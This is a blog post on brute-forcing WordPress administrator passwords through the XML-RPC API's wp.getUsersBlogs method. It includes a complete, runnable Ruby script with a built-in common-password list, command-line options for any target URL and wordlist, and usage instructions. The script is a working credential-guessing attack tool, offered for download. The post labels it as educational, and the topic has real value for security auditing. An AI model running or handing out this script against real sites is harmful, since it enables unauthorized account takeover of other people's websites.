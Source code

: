 ```yaml
---
title: "Wordpress brute force password attack using XML-RPC API"
date: 2017-05-14 17:12
comments: true
categories:
  - web-security
tags:
  - wordpress
description: wordpress attack, wordpres password brute force, wordpress xmlrpc api, wordpress hacking
keywords: 
  - wordpress hacking
  - wordpress brute force
  - attacking wordpress
  - wordpress xmlrpc api
  - web hacking
  - wordpress information gathering
  - wordpress security
  - wordpress auditing
sharing: true
thumbnail: "/assets/images/wordpress-hacking.png"
---
```

How to getadmin password for wordpress using [XML-RPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack?

<img src="/assets/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only
Starting a series of posts about web security, which also a passion of mine besides development.  
The first published post on this topic about getting admin password for wordpress using [XML-RPC API](
https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack.
Second choice may be a direct brute force attack via post form on 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, which I will cover in other post.

<!-- more -->

#### What is XML-RPC?
The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site...[(link to full article)](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)  
The simplest way to check if XML-RPC API enabled(default) in your wordpress is by open your browser and entering something like http://127.0.0.1:8080/xmlrpc.php, if response you see is 'XML-RPC server accepts POST requests only.', XML-RPC API enabled. 

#### Other great tools for wordpress password brute force ####
[WPScan](https://wpscan.org/) - great tool for wordpress information gathering and password brute force  
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html) - performs brute force password auditing against Wordpress CMS/blog installations.

#### Let's do it ####
Let's start to build simple script which will find admin password for wordpress using dictionary, I am using simple [sucuri dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) as default for out brute force attack.  
We will use ['wp.getUsersBlogs'](https://codex.wordpress.org/XML-RPC_wp) method for our purposes, to retrieve the blogs of the users. This method receives username and password and returns array of values. In case of success we getting array with user's info, otherwise xmlrpc call throws exception, see the code below to understand better.


Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/your-user/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help